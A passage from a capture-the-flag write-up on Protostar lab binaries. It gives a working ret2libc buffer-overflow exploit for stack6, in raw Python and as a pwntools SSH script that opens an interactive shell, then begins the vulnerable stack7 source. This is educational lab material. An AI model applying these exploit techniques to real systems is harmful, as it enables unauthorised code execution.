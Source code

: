 <br/>

Now let's write an exploit with everything
```python
import struct

base = 0xb7e97000

padding = "A" * 80
system = struct.pack("I", base+0x00038fb0)
exit = struct.pack("I", base + 0x0002f0c0)
binsh = struct.pack("I", base + 0x11f3bf)

print padding + system + exit + binsh
```
And run it
```
$ (python /tmp/ex.py;cat)| /opt/protostar/bin/stack6
```

<br/>

As always the scripted version
```python
from pwn import *
import paramiko

user = 'user'
password = user
host = '<ip>'

s = ssh(user=user,password=password,host=host)

#base = 0xb7e97000
padding = b'a'*80
system = p32(0xb7e97000+0x00038fb0)
exit = p32(0xb7e97000+0x0002f0c0)
binsh = p32(0xb7e97000+0x11f3bf)
payload =  padding + system + exit +binsh

p = s.run('/opt/protostar/bin/stack6')
p.sendline(payload)
p.interactive()
```

<br/>

## Stack 7

Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);
```